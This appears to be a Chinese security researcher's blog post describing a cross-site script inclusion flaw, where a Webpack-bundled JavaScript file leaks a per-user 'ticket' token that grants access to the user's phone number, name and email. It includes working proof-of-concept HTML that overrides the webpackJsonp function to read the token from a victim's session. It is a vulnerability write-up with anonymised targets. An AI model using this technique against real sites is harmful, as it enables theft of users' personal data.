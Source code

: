 ```yaml
---
layout: post
author: Vulkey_Chen
title: "[XSSI]动态JS劫持用户信息"
date: 2020-01-08
music-id: 
permalink: /archives/2020-01-08/3
description: "[XSSI]动态JS劫持用户信息"
---
```


# 动态JS劫持用户信息

**Webpack+JSONP劫持**

作者：key

注：本文已对敏感信息脱敏化，如有雷同纯属巧合。

## 前言

在做测试的时候发现一个请求：

```http
POST /user/getUserInfo HTTP/1.1
Host: xxxxx
Cookie: xxxx

ticket=xxxxx
```

其对应返回的信息包含了我本身用户的敏感信息：手机号、姓名、邮箱...

通过BurpSuite的插件`Logger++`搜索发现该`ticket`值居然出现在了JS文件中：

![-w699](/images/2020-01-08/15782203133182.jpg)

## 确定漏洞

通过测试我发现以上所述请求中的`Cookie`为无效请求头，后端不对齐校验，但对`ticket`校验，也就说明此处的`ticket`代表了获取用户信息的关键参数，换种说法：**当你知道用户的`ticket`参数即可获取该用户信息**。

## 判断JS动静态

当我在`Logger++插件`搜索到`ticket值`存在JS文件内容时，我的第一想法就是这个JS文件为动态类型，其文件内容跟随用户凭证字段的变化而变化。

测试：删除Cookie字段，结果：`ticket`参数值消失，由此可以判断该JS内容为动态类型。

再尝试将测试账户A的Cookie字段内容替换为测试账户B的Cookie字段内容，结果：`ticket`参数值变为测试账户B用户的对应值，由此可以判断该JS文件路径是固定的，并不是动态路径。

## Webpack+JSONP劫持

已知JS文件路径为：`https://website/app.xxxxx.js`

查看其文件内容发现其被Webpack打包过：

![-w143](/images/2020-01-08/15782208726972.jpg)

那么我们想要劫持这个JS文件内容其实就可以使用JSONP的PoC代码（因为这段JS文件内容就是`自定义函数+传入参数`）：

```javascript
<script>
function webpackJsonp(data) {
	alert(data)
}
</script>
<script src="https://website/app.xxxxx.js"></script>
```

但这样得不到我们想要的`ticket`值，简单的看了下JS代码，这段JS代码内容的格式是这样的：

webpackJsonp 函数传入两个参数：第一个参数毫无用处，第二个参数传入的值包含了我们想要的`ticket`值。

那以上代码就可以这样修改：

```javascript
<script>
function webpackJsonp(data, data1) {
	alert(data1)
}
</script>
<script src="https://website/app.xxxxx.js"></script>
```

但我们还是没得到我们想要的信息：

![-w517](/images/2020-01-08/15782215229911.jpg)

因为第二段参数传入的值还需要进行解析，我发现这段值内容就是一段JSON对象，而对象的每个属性都在定义一个函数：

![-w411](/images/2020-01-08/15782216768669.jpg)

寻找`ticket`所在函数位置，发现其在`jbTV: function...`内，知道了所在函数位置，PoC代码只需要这样进行构建：

```javascript
<script>
function webpackJsonp(data, data1) {
	alert(data1['jbTV'])
}
</script>
<script src="https://website/app.xxxxx.js"></script>
```

访问，成功获取：

![-w1239](/images/2020-01-08/15782218407604.jpg)

后面只需要稍微的加个正则就可以了～

## 攻击方式

用户登录状态，访问该漏洞页面，触发即可获取到`ticket`值，将该值带入以上所列请求中即可越权获取用户信息

# 结尾

心细一点，漏洞就在眼前，

